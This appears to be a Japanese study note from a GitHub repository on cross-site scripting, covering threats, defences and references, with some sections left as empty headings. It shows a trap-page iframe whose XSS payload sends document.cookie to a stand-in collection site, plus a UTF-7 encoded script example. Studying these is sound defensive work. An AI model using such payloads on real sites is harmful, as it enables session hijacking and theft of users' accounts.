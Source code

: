 # security-study

## XSS について調べてみた

### XSS の概要

ターゲットのブラウザ上で攻撃者が用意したスクリプトが実行される。
それによって以下のような脅威が発生する。

- ブラウザが保存しているクッキーを取得される
  - 成りすまし
  - クッキーに保存された個人情報の漏洩（ただし、一般的にはクッキーはセッション ID を保持するために使い、データを保存しないことが推奨される）
- 任意のクッキーをブラウザに保存させられる
  - セッション ID が利用者に送り込まれ、セッション ID の固定化攻撃に悪用される

例えば、以下のような手口で行われる。

- 攻撃者が罠サイトを用意する
- 罠サイトの iframe 要素の中に脆弱なサイトが表示される
- クッキー値をクエリ文字列につけると情報収集ページに遷移する（XSS 攻撃！）
- 情報収集ページから攻撃者にクッキー値を送信する
- 罠サイトにターゲット がアクセスすれば XSS 攻撃が成立！
- クッキー値を盗むことで攻撃者はターゲットに成りすませる

```html
<html>
  <body>
    <br /><br />
    <iframe
      width="320"
      height="100"
      src="http://vulnerable-site.com/example.php?
    keyword=<script>window.location='http://unlawfully-collect-cookie-site.com/example.php?sid='%2Bdocument.cookie;</script>"
    ></iframe>
  </body>
</html>
```

### JavaScript による XSS

#### React で発生するケース

### XSS の根本的解決と保険的対策

#### 根本的解決

厳密には HTML テキストの入力を許可しない場合と HTML テキストの入力を許可する場合に分けられるが、多くの Web アプリケーションでは HTML テキストの入力を許可しないものを前提とする。（HTML テキストの入力を許可しうる Web アプリケーションの例として、ブログや掲示板など自由度の高い入力仕様があるものが挙げられる。）

- ウェブページに出力する全ての要素に対して、エスケープ処理を施す

  - ウェブページの表示に影響する特別な記号文字（「<」、「>」、「&」等）を、HTML エンティティ（「&lt;」、「&gt;」、「&amp;」等）に置換する
  - HTML タグを出力する場合は、その属性値を必ずダブルクォートで括り、それを「&quot;」にエスケープする
  - JavaScript の document.write メソッドや innerHTML プロパティ等を使用する場合も同様のエスケープ処理を行う

- HTTP レスポンスヘッダの Content-Type フィールドに文字コード（charset）を指定する

  - 文字コードの指定を省略すると、ブラウザが独自にエンコードするが、その挙動を悪用して不正なスクリプトを埋め込むことができる
  - 例えば、一部のブラウザでは「+ADw-script+AD4-alert(+ACI-test+ACI-)+ADsAPA-/script+AD4-」を UTF-7 でエンコードし、「<script>alert('test');</script>」が実行されてしまう（XSS 攻撃）
  - エスケープ処理を行っていても、ブラウザの文字エンコーディングと Web アプリケーションが想定している文字エンコーディングが異なると突破される可能性がある
  - エスケープ処理と合わせ、Web アプリケーションが想定している文字エンコーディングを指定することは必須

- URL を出力するときは、「http://」や 「https://」で始まる URL のみを許可する

  - URL には「javascript:」の形式で始まるものもあり、ウェブページに出力するリンク先や画像の URL が、外部からの入力に依存する形で動的に生成できると XSS 脆弱性が発生する
  - 利用者から入力されたリンク先の URL を「&lt;a href="リンク先の URL">」の形式でウェブページに出力する場合、その URL を「javascript:」で始めることで不正なスクリプトを埋め込める

- <script>...</script> 要素の内容を動的に生成しない

  - 外部からの入力に依存して生成されると XSS 脆弱性をうむ
  - 危険なスクリプトを区別するのは非現実的

- スタイルシートを任意のサイトから取り込めるようにしない
  - 生成するウェブページに XSS 攻撃ができるスクリプトが埋め込まれてしまう可能性がある
  - 危険なスクリプトを区別するのは非現実的

#### 保険的対策

基本的には根本的解決を図るべきだが、XSS の対策箇所が多いため、漏れが生じる可能性がある。

以下のような保険的対策をとることで、万が一漏れが生じていた場合に XSS の被害を軽減できる場合がある。

- 入力値に対してバリデーションをかける

  - 英数字などのみを入力可能なフォームでは有効
  - 幅広い文字種入力できるような仕様ではこの対策は取れない
  - 入力値の確認処理を通過した後の文字列の演算結果がスクリプト文字列を形成してしまうプログラムになっている可能性もあるため、あくまで保険にすぎない

- クッキーに HttpOnly 属性を付与する

  - JavaScript からのクッキー読み出しができなくなる
  - サーバー側のセッションを持続させるクッキーは JavaScript が利用する必要はないので、 HttpOnly 属性をつける
  - しかし、クッキーを盗まれなくなるにすぎないため、これだけでは XSS による他の脅威は残ったままであることに注意が必要

### 他の攻撃との比較

#### CSRF との違い

#### セッションハイジャックとの違い

#### フィッシングとの違い

XSS 攻撃によって偽画面が表示されたり遷移したりすることもあるが、フィッシングとは異なる。

フィッシングは Web アプリケーション自体に脆弱性がなくても発生し、利用者側で注意すべきもの（運営側は「当サイトをかたり情報を抜き取ろうとしているケースが増加しています」などの注意喚起をすることぐらいしかできない）である。

一方で、XSS は Web アプリケーション自体に脆弱性があるために発生するものであり、利用者が対策することは不可能か極めて困難であるという違いがある。

### XSS によるセキュリティインシデントの実例

## 参考

- 安全な Web アプリケーションの作り方 第 2 版 徳丸浩
- [安全なウェブサイトの作り方 - 1.5 クロスサイト・スクリプティング](https://www.ipa.go.jp/security/vuln/websecurity/cross-site-scripting.html)
- [HTTP Cookie の使用](https://developer.mozilla.org/ja/docs/Web/HTTP/Cookies)
- [クレジットカード情報漏洩の手口の動向～なぜ保存禁止のセキュリティコードまで漏洩するのか～](https://youtu.be/fXVasf_Kyhs?si=Ukb-05cmszmKX9BT)
